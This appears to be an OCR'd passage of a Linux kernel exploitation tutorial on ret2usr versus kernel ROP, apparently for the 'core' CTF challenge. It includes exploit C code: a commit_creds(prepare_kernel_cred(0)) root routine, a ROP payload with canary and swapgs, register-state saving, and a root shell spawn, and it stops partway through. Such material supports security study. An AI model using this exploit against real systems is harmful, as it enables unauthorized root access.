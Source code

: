 ```c
  67   │ void Getroot()
  68   │ {
  69   │     char* (*pkc)(int) = prepare_kernel_cred_addr;
  70   │     void (*cc)(char*) = commit_creds_addr;
  71   │     (*cc)((*pkc)(0));
  72   │ }
```

Then we only need to fill in the return address with the privilege escalation function address, rather than construct the ROP chain in the kernel space.

Compared to these two methods, we could conclude that ret2usr is easier than ROP.  Because it is generally much easier to construct purpose-specific code in user space than in kernel space.

```c
 102   │     for(i = 0; i < 10; i++)
 103   │     {
 104   │         rop[i] = canary;
 105   │     }
 106   │     rop[i++] = (size_t)Getroot;
 107   │     rop[i++] = swapgs;
 108   │     rop[i++] = 0;
```

exp:

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>

#define CORE_READ 0x6677889B
#define CORE_OFF 0x6677889C
#define CORE_COPY 0x6677889A

size_t vmlinux_base,commit_creds_addr,prepare_kernel_cred_addr;
size_t user_cs,user_ss,user_sp,user_rflags;
size_t raw_vmlinux_base = 0xffffffff81000000;

void save_status()
{
	__asm__(
		"mov user_cs, cs;"
		"mov user_ss, ss;"
		"mov user_sp, rsp;"
		"pushf;"
		"pop user_rflags"
	);
}

void GetShell() {
    if (!getuid()) {
        system("/bin/sh");
    }
    else {
        puts("[-] CAN NOT GETSHELL.");
        exit(1);
    }
}

int find_symbols()
```